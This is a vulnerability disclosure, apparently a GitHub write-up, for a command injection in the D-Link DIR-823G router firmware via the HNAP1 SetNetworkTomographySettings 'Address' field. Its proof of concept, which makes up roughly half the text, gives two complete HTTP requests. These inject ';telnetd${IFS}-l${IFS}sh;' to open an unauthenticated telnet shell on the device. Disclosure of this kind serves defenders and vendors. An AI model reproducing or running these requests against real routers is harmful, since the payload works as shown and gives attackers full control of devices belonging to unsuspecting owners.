




# D-Link Vulnerability

Vendor:D-Link

Product:DIR_823G

Version:1.0.2B05

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `goahead` binary:

In `SetNetworkTomographySettings` function, `Address` is directly passed by the attacker. After that, call the function `apmib_set` to store this input.

<div  align="center"></div>

In `GetNetworkTomographyResult` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `Address`=**;telnetd${IFS}-l${IFS}sh;**, in (`SetNetworkTomographySettings`)
* visit the `GetNetworkTomographyResult`


## PoC

We set `Address`=**;telnetd${IFS}-l${IFS}sh;**, in (`SetNetworkTomographySettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: C555E6FE47BFA313D376387B0D6A006C 1728991191
X-Requested-With: XMLHttpRequest
Content-Length: 423
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html
Cookie: uid=RQbvriUgfO; PrivateKey=6A4538C7FABD7051030574A855AD4085; timeout=17

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetNetworkTomographySettings xmlns="http://purenetworks.com/HNAP1/"><Address>;telnetd${IFS}-l${IFS}sh;</Address><Number>5</Number><Size>64</Size></SetNetworkTomographySettings></soap:Body></soap:Envelope>
```

<div  align="center"></div>

visit the `GetNetworkTomographyResult`

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/GetNetworkTomographyResult"
HNAP_AUTH: 71D275C18F144981BAE65EAA665143F0 1728991394
X-Requested-With: XMLHttpRequest
Content-Length: 315
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html
Cookie: uid=RQbvriUgfO; PrivateKey=6A4538C7FABD7051030574A855AD4085; timeout=29

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><GetNetworkTomographyResult xmlns="http://purenetworks.com/HNAP1/" /></soap:Body></soap:Envelope>
```


## Result

Get a shell!

<div  align="center"></div>
